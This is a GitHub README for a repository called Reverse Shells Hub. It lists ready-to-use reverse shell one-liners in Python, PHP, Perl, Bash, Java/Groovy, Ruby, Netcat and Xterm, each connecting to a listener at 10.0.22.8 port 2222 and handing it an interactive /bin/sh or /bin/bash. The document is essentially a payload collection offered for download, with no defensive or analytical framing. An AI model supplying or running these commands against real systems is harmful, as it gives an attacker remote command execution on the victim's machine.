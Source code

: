 # Reverse_Shells_Hub - XORPIOv

![](https://github.com/XORPIOv/lib/blob/main/sharingan.png)

**Reverse Shells Hub is a repository containg reverse shells for most used languages**

Download all the Reverse Shells on Linux by the command  
```bash
git clone https://github.com/XORPIOv/reverse_shells.git
```
OR download as **[ZIP FILE](https://github.com/XORPIOv/reverse_shells_hub/archive/refs/heads/main.zip)** for Windows or Linux

## Shells
Find the **latest versions of all the scripts in [the releases page](https://github.com/XORPIOv/reverse_shells.git)**.
## Python
```bash
# XORPIOv PYTHON SHELL | A Reverse Shell in PYTHON.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.22.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Php
```bash
// XORPIOv PHP SHELL | A Reverse Shell in PHP.
// Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
//
// Description
// ------------
// Change IP Address && PORT to local IP && PORT.

php -r '$sock=fsockopen("10.0.22.8",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl
```bash
# XORPIOv PERL SHELL | A Reverse Shell in PERL.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

perl -e 'use Socket;$i="10.0.22.8";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Bash
```bash
# XORPIOv BASH SHELL | A Reverse Shell in BASH.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

bash -i >& /dev/tcp/10.0.22.8/2222 0>&1
```
## Java
```bash
/*

XORPIOv JAVA SHELL | A Reverse Shell in JAVA.
Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv

Description
------------
This shell / script will allow you to make an outbound connection to local IP Address and port.
Change IP Address && PORT to local IP && PORT.

*/

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.22.8/2222;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ruby
```bash
# XORPIOv RUBY SHELL | A Reverse Shell in RUBY.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

ruby -rsocket -e'f=TCPSocket.open("10.0.22.8",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```bash
# XORPIOv NETCAT SHELL | A Reverse Shell in NETCAT.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

nc -e /bin/sh 10.0.22.8 2222
```
## Xterm
```bash
# XORPIOv XTERM SHELL | A Reverse Shell in XTERM.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

xterm -display 10.0.22.8:2222
```

**ReverseShellsHub** will always be updated
